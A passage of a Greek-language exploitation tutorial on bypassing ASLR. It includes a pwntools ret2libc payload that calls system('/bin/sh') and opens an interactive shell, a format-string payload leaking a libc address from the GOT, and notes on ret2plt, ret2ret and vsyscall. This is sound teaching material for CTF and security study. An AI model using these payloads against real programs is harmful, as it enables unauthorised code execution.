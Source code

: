 ```python

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Εκμεταλλευόμενος ένα buffer overflow θα ήταν δυνατόν να εκμεταλλευτείτε ένα **ret2plt** για να εξαγάγετε μια διεύθυνση μιας συνάρτησης από την libc. Ελέγξτε:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Όπως και στο ret2plt, εάν έχετε ένα αυθαίρετο διάβασμα μέσω μιας ευπάθειας format strings είναι δυνατόν να εξάγετε τη διεύθυνση μιας **συνάρτησης της libc** από το GOT. Το ακόλουθο [**παράδειγμα είναι από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Μπορείτε να βρείτε περισσότερες πληροφορίες σχετικά με την αυθαίρετη ανάγνωση μορφοποίησης σε:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Προσπαθήστε να παρακάμψετε το ASLR καταχρώμενοι διευθύνσεις μέσα στη στοίβα:

{% content-ref url="ret2ret.md" %}
[ret2ret.md](ret2ret.md)
{% endcontent-ref %}

### vsyscall

Ο μηχανισμός **`vsyscall`** χρησιμεύει για τη βελτίωση της απόδοσης επιτρέποντας σε συγκεκριμένες κλήσεις συστήματος να εκτελούνται στον χώρο χρήστη, αν και ουσιαστικά ανήκουν στον πυρήνα. Το κρίσιμο πλεονέκτημα των **vsyscalls** βρίσκεται στις **σταθερές διευθύνσεις** τους, οι οποίες δεν υπόκεινται σε **ASLR** (Τυχαία Διάταξη Χώρου Διεύθυνσης). Αυτή η σταθερή φύση σημαίνει ότι οι επιτιθέμενοι δεν χρειάζεται να έχουν μια ευπάθεια διαρροής πληροφοριών για να προσδιορίσουν τις διευθύνσεις τους και να τις χρησιμοποιήσουν σε μια εκμετάλλευση.\
Ωστόσο, δεν θα βρεθούν πολύ ενδιαφέροντα gadgets εδώ (αν και, για παράδειγμα, είναι δυνατόν να ληφθεί ένα ισοδύναμο `ret;`)
